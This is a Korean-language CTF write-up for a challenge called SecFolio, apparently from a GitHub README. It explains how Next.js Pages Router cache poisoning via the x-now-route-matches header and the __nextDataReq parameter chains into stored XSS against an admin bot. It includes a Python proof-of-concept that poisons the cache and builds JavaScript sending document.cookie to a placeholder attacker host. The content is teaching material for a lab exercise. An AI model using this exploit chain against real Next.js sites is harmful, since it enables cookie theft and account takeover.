






# 💡 Write-up: SecFolio (Next.js Cache Poisoning to Stored XSS)

## 목차

1. [Vulnerability Overview](#vulnerability-overview)
2. [Environment & Project Structure](#environment-project-structure)
3. [Exploit Steps](#exploit-steps)
4. [poc.py](#poc-py)
5. [References](#references)

<br>


본 프로젝트는 PortSwigger Top 10 Web Hacking Techniques of 2025 중 7위에 선정된 `"Next.js, cache, and chains: the stale elixir"` 리서치 블로그의 내용을 기반으로 구성되었습니다.

이력서(Portfolio)를 생성하고 제출하는 웹 서비스를 모티브로 구성된 Web CTF 문제입니다.  

<br>

## <a id="vulnerability-overview"></a>📌 Vulnerability Overview
Next.js 14.x 버전 이하의 Pages Router 환경에서 발생하는 Cache Poisoning을 다룹니다.

공격자는 x-now-route-matches: 1 헤더와 데이터 요청 파라미터(__nextDataReq=1)를 조작하여 서버의 데이터(JSON) 엔드포인트를 악의적인 페이로드로 오염시켜 캐싱할 수 있습니다.

이후 HR 봇(관리자)이나 일반 사용자가 해당 경로에 순수한 HTML 요청으로 접근하면, 서버는 오염된 JSON 데이터를 Content-Type: text/html 형식으로 잘못 반환합니다.

브라우저는 이 텍스트를 파싱하는 과정에서 섞여 있는 HTML 태그(XSS 페이로드)를 실행하게 됩니다.

<br>

## <a id="environment-project-structure"></a>🛠️ Environment & Project Structure
* **Frontend**: Next.js (Pages Router), React
* **Backend (Admin Bot)**: Express, Puppeteer
* **Infrastructure**: Docker, Docker Compose

```text
Next.js_cache_and_chains/
├── docker-compose.yml       
├── web/                     
│   ├── Dockerfile
│   ├── package.json
│   └── pages/
│       ├── api/apply.js     
│       ├── index.tsx       
│       └── resume.tsx       
└── bot/                   
    ├── Dockerfile
    ├── package.json
    └── index.js             
```

<br>

## 🚩 <a id="exploit-steps"></a>Exploit Steps

**Step 1. 취약점 포인트 탐색 및 React 방어 메커니즘 확인**

- `Accept-Language` 헤더 값이 화면에 직접 렌더링되는 것을 확인할 수 있습니다.
- 하지만 일반적인 HTML 요청으로 XSS 페이로드를 삽입하면, React의 자동 이스케이핑(HTML 인코딩) 처리에 의해 특수문자가 변환되어 스크립트 실행이 차단됩니다.

 

<br>

**Step 2. 우회 경로 탐색 (Next.js JSON 엔드포인트)**

- HTML 렌더링 방어를 우회하기 위해 Next.js의 클라이언트 라우팅 특성을 활용할 수 있습니다.
- URL에 `__nextDataReq=1` 파라미터를 추가하면 HTML 대신 JSON 데이터(`pageProps`)가 반환되며, 이 과정에서는 React의 렌더링을 거치지 않아 페이로드가 원형 그대로 삽입된다. 이때 반환 형식은 `Content-Type: application/json` 입니다.
- 이후에 다시  `__nextDataReq=1` 파라미터를 제거한 이후 일반적으로 접근하면 다음과 같이 JSON 형태를 가지면서 `Content-Type: text/html` 형식으로 반환합니다.

 

<br>

**Step 3. 프레임워크 결함 연계 (Cache Poisoning)**

- 악성 페이로드가 삽입된 JSON(text/html) 응답을 봇에게 전달하기 위해 Cache Poisoning을 활용합니다.
- `x-now-route-matches: 1` 헤더를 동반하여 데이터 API를 요청하면, 서버가 해당 JSON 응답을 정적 파일로 캐싱하는 프레임워크 내부 동작을 이용하여 해당 경로의 캐시를 JSON 형태로 덮어씌웁니다.
- 이후엔 해당 페이지에 일반적인 요청만 보내도 캐시된 JSON(text/html) 페이지가 리턴되어 xss가 발생합니다.

 

<br>

**Step 4. 공격 및 플래그 획득**

- 봇에게 파라미터가 제외된 원본 URL을 제출합니다.
- 봇은 해당 URL에 접근하고, Next.js 서버는 오염된 JSON 데이터를 `text/html` 형식으로 잘못 반환합니다.
- 결과적으로 브라우저가 이를 HTML로 파싱하면서 XSS가 실행되고 관리자의 쿠키(Flag)가 공격자의 서버로 탈취됩니다.


<br>

## <a id="poc.py"></a>poc.py

```python
import requests
import time
import random

# ==========================================
# 1. 설정 (Configuration)
# ==========================================
TARGET_HOST = "http://localhost:3000"
WEBHOOK_URL = "https://attacker_ip/" # 본인의 웹훅 주소

# 캐시 충돌 방지를 위한 랜덤 경로 생성
random_id = random.randint(10000, 99999)
RESUME_PATH = f"/resume?name=test{random_id}&title=test{random_id}"

print(f"[*] Starting Cache Poisoning Exploit...")
print(f"[*] Target Fresh Path: {RESUME_PATH}")

# ==========================================
# 2. XSS 페이로드 생성
# ==========================================
js_code = f"location.href='{WEBHOOK_URL}?c='+document.cookie"
xss_payload = f""

print(f"\n[+] Generated XSS Payload: {xss_payload}\n")

# ==========================================
# 3. Cache Poisoning
# ==========================================
poison_url = f"{TARGET_HOST}{RESUME_PATH}&__nextDataReq=1"
headers = {
    "Accept-Language": f"ko-KR {xss_payload}",
    "x-now-route-matches": "1"
}

print(f"[*] Sending Poisoning Request...")
response = requests.get(poison_url, headers=headers)

if response.status_code == 200:
    print("[+] Cache successfully poisoned!")
else:
    print(f"[-] Something went wrong. Status Code: {response.status_code}")

# 캐시가 반영될 시간 대기
time.sleep(2)

# ==========================================
# 4. HR 관리자 봇 호출 (Exploit Trigger)
# ==========================================
apply_api_url = f"{TARGET_HOST}/api/apply"
json_data = {
    "resumePath": RESUME_PATH
}

print(f"[*] Notifying HR Admin Bot...")
bot_response = requests.post(apply_api_url, json=json_data)

if bot_response.status_code == 200:
    print("[+] HR Admin has been notified!")
    print(f"[!] Check your webhook ({WEBHOOK_URL}) for the Admin's Flag! 🚩")
else:
    print(f"[-] Failed to notify Admin Bot. Status: {bot_response.status_code}")
``` 

<br>

## <a id="references"></a>📚 References
https://zhero-web-sec.github.io/research-and-things/nextjs-cache-and-chains-the-stale-elixir